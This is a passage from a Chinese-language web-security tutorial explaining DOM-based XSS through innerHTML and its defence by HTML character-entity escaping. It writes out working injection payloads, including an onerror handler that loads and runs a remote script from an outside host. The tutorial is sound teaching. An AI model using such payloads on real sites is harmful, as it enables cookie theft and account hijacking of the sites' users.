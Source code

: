 你把地址改成 `www.example.com/user.html?name=<img src=@ onerror=alert(1)>` 的话，就相当于：

```js
document.getElementById("d1").innerHTML="<img src=@ onerror=alert(1)>"
```

此时立刻就弹窗了 1。

也许你会想，不就是弹窗个 1 吗？还能怎么样？能写多少代码？

那我把地址改成 `www.example.com/user.html?name=<img src=@ onerror='var s=document.createElement("script");s.src="https://mqyqingfeng.github.io/demo/js/alert.js";document.body.appendChild(s);' />` 呢？

就相当于：

```js
document.getElementById("username").innerHTML = "<img src=@ onerror='var s=document.createElement(\"script\");s.src=\"https://mqyqingfeng.github.io/demo/js/alert.js\";document.body.appendChild(s);' />";
```

整理下其中 onerror 的代码：

```js
var s = document.createElement("script");
s.src = "https://mqyqingfeng.github.io/demo/js/alert.js";
document.body.appendChild(s);
```

代码中引入了一个第三方的脚本，这样做的事情就多了，从取你的 cookie，发送到黑客自己的服务器，到监听你的输入，到发起 CSRF 攻击，直接以你的身份调用网站的各种接口……

总之，很危险。

为了防止这种情况的发生，我们可以将网址上的值取到后，进行一个特殊处理，再赋值给 DOM 的 innerHTML。

## 字符实体

问题是怎么进行转义呢？而这就要谈到字符实体的概念了。

在 HTML 中，某些字符是预留的。比如说在 HTML 中不能使用小于号（<）和大于号（>），因为浏览器会误认为它们是标签。

如果希望正确地显示预留字符，我们必须在 HTML 源代码中使用字符实体（character entities）。

字符实体有两种形式：

1. `&entity_name;`
2. `&#entity_number;`。

比如说我们要显示小于号，我们可以这样写：`&lt;` 或 `&#60`;

值得一提的是，使用实体名而不是数字的好处是，名称易于记忆。不过坏处是，浏览器也许并不支持所有实体名称（但是对实体数字的支持却很好）。

也许你会好奇，为什么 `<` 的字符实体是 `&#60` 呢？这是怎么进行计算的呢？

其实很简单，就是取字符的 unicode 值，以 `&#` 开头接十进制数字 或者以 `&#x`开头接十六进制数字。举个例子：

```js
var num = '<'.charCodeAt(0); // 60
num.toString(10) // '60'
num.toString(16) // '3c'
```
